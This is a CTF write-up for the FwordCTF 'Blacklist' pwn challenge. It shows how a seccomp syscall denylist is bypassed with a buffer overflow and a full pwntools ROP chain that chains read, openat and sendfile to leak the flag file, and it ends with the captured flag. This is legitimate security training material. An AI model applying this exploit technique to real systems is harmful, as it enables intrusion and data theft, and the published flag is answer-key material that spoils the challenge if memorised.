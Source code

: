 ## FwordCTF Blacklist Writeup
#### Tags: pwn, seccomp bypass, rop

We are given a statically linked binary:

```shell
$ file ./blacklist
./blacklist: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=8231fd8232118e3b92ca37d041e1da3ab1daf4d9, for GNU/Linux 3.2.0, stripped
```

From analzying the binary, we can see it uses seccomp to restrict syscalls, then waits for input:

```shell
$ strace ./blacklist
...
seccomp(SECCOMP_SET_MODE_FILTER, 0, {len=24, filter=0x902350}) = 0
read(0, 
```

We can easily overflow, find the offset and control rip, but due to seccomp, it will be much harder to read the flag.

```shell
$ ./blacklist
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Let's analyze the seccomp profile using [seccomp-tools](https://github.com/david942j/seccomp-tools):

```shell
$ seccomp-tools dump ./blacklist
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x15 0xc000003e  if (A != ARCH_X86_64) goto 0023
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x12 0xffffffff  if (A != 0xffffffff) goto 0023
 0005: 0x15 0x11 0x00 0x00000001  if (A == write) goto 0023
 0006: 0x15 0x10 0x00 0x00000002  if (A == open) goto 0023
 0007: 0x15 0x0f 0x00 0x00000012  if (A == pwrite64) goto 0023
 0008: 0x15 0x0e 0x00 0x00000014  if (A == writev) goto 0023
 0009: 0x15 0x0d 0x00 0x00000038  if (A == clone) goto 0023
 0010: 0x15 0x0c 0x00 0x00000039  if (A == fork) goto 0023
 0011: 0x15 0x0b 0x00 0x0000003a  if (A == vfork) goto 0023
 0012: 0x15 0x0a 0x00 0x0000003b  if (A == execve) goto 0023
 0013: 0x15 0x09 0x00 0x0000003e  if (A == kill) goto 0023
 0014: 0x15 0x08 0x00 0x00000065  if (A == ptrace) goto 0023
 0015: 0x15 0x07 0x00 0x000000c8  if (A == tkill) goto 0023
 0016: 0x15 0x06 0x00 0x00000113  if (A == splice) goto 0023
 0017: 0x15 0x05 0x00 0x00000128  if (A == pwritev) goto 0023
 0018: 0x15 0x04 0x00 0x00000130  if (A == open_by_handle_at) goto 0023
 0019: 0x15 0x03 0x00 0x00000135  if (A == getcpu) goto 0023
 0020: 0x15 0x02 0x00 0x00000142  if (A == execveat) goto 0023
 0021: 0x15 0x01 0x00 0x00000148  if (A == pwritev2) goto 0023
 0022: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0023: 0x06 0x00 0x00 0x00000000  return KILL
 ```
All the syscalls listed above are blocked.
Also attempting to switch to 32 bit mode to use 32 bit syscalls is not allowed.

We need to bypass the seccomp filter and read the flag somehow (it's path is known). After looking at the [amd64 syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), we can find some useful syscalls that allow us to read the flag:
 * read - to read the path of the flag into a known address
 * openat - to open the flag file and get the fd
 * sendfile - to transfer data between file descriptors (we can transfer to fd 1 stdout)

Now because the binary is statically linked, we will have plenty of rop gadgets to use. I chose to write a rop chain that uses only these syscalls. Another approach is to write custom shellcode, then use mprotect to mark the section of the shellcode as executable, and execute it.

Before I wrote the rop chain, I tested the syscalls in a [c program](idea.c) in order to test it easily:
```c
#include <fcntl.h>
#include <sys/sendfile.h>

int main() {
    // read(0, RW_ADDR, 900); // write path of flag to known address
    int fd = openat(0, "/path/to/flag.txt", O_RDONLY); // imagine that RW_ADDR points to the string "/path/to/flag.txt"
    sendfile(1, fd, 0, 0xffff);
    return 0;
}
```

Now the [final exploit](solve.py):
```py
from pwn import *

context(arch="amd64")
elf = ELF("./blacklist")

DEBUG = False
REMOTE = True

if DEBUG:
    p = gdb.debug("./blacklist", gdbscript="""
    b *0x4017b6
    continue
    """)
elif REMOTE:
    p = remote("blacklist.fword.wtf",1236)
else:
    p = process(elf.path)

offset = 72

read_n = 0
openat_n = 257 
sendfile_n = 40

pop_rdi_ret = 0x00000000004017b6#: pop rdi; ret;
pop_rsi_ret = 0x00000000004024f6#: pop rsi; ret;
pop_rdx_ret = 0x0000000000401db2#: pop rdx; ret;
pop_rax_ret = 0x0000000000401daf#: pop rax; ret;
pop_r10_ret = 0x0000000000401db1#: pop r10; ret;
syscall_ret = 0x000000000041860c#: syscall; ret;


string_addr = 0x004d1260
path_str = "/home/fbi/aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacma.txt\x00"

# first payload to read string from stdin
payload = b""
payload += b"A"*offset 
payload += p64(pop_rdi_ret)
payload += p64(0) # arg1 fd
payload += p64(pop_rsi_ret)
payload += p64(string_addr) # arg2 buf
payload += p64(pop_rdx_ret)
payload += p64(300) # arg3 count
payload += p64(pop_rax_ret)
payload += p64(read_n)
payload += p64(syscall_ret) # read

# second payload to open the flag using openat
payload += p64(pop_rdi_ret)
payload += p64(0) # arg1 (doesn't matter)
payload += p64(pop_rsi_ret) 
payload += p64(string_addr) # arg2 path
payload += p64(pop_rdx_ret)
payload += p64(0) # arg3
payload += p64(pop_rax_ret)
payload += p64(openat_n)
payload += p64(syscall_ret) # openat

flag_fd = 3 # new fd of the flag will always be 3

# third payload to write flag to stdout using sendfile
payload += p64(pop_rdi_ret)
payload += p64(1) # arg1 dst fd: stdout
payload += p64(pop_rsi_ret)
payload += p64(flag_fd) # arg2 src fd: flag_fd
payload += p64(pop_rdx_ret)
payload += p64(0) # arg3 offset
payload += p64(pop_r10_ret)
payload += p64(0xffff) # arg4 count
payload += p64(pop_rax_ret)
payload += p64(sendfile_n)
payload += p64(syscall_ret) # sendfile

p.sendline(payload)
p.sendline(path_str)
p.interactive()
```

And we get the flag!
**FwordCTF{th3_n4M3_1s_El1Z4be7h_K33n}**

Overall a really fun challenge.
